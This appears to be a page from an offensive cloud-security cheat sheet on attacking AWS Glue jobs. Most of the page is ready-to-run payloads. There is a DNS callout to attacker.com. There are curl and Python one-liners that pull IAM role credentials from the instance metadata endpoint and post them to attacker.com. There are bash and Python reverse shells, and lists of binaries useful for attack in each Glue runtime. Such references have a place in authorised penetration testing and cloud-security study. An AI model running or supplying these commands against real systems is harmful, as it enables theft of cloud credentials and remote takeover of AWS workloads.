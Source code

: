 # Glue

Glue jobs are typically used for Extract, Transform, Load (ETL) operations or batch processing. They can have a service role associated with them, which may enable certain AWS permissions if compromised.

Jobs run by default with a longer execution window than Lambda functions, which increases the opportunity time of a reverse shell payload.

Additionally the environments used for Glue jobs have more common system packages than Lambda. For example, the `requests` library exists in the `python3` deployment packages across all Glue jobs.

## Generic

### DNS

```
python3 -c 'import socket;socket.gethostbyname("attacker.com")'
```

### OOB HTTP Request

```
curl https://attacker.com -d $(curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy)
```

```
python3 -c 'import requests;requests.post("https://attacker.com/data",json=requests.get("http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy").json())'
```

* Note that for Ray jobs that the IMDS endpoint is slightly different: `http://169.254.169.254/latest/meta-data/iam/security-credentials/execution_role`

### Reverse Shell

```
bash -i >& /dev/tcp/10.0.0.1/80 0>&1
```

```
python3 -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

## Python Shell (Glue 4.0)

Runs Debian GNU/Linux 10 (buster)

Interesting Binaries: apt, c89, c99, cc, curl, g++, gcc, git, gpg, openssl, perl, python2, python3, scp, ssh, svn, wget

## Spark (Python 3 and Scala; Glue 4.0)

Runs Amazon Linux 2

Interesting Binaries: aws, c++, c89, c99, cc, curl, g++, gcc, gdb, git, gpg2, java, lua, perl, python, python3, scp, sftp, sqlite3, ssh, svn, wget, yum

## Ray (Glue 4.0)

Runs Amazon Linux 2

Interesting Binaries: aws, c++, c89, c99, cc, curl, g++, gcc, gdb2, java, jconsole, jrunscript, lua, ncat, ping, pip3, python, python3, urlgrabber, yum
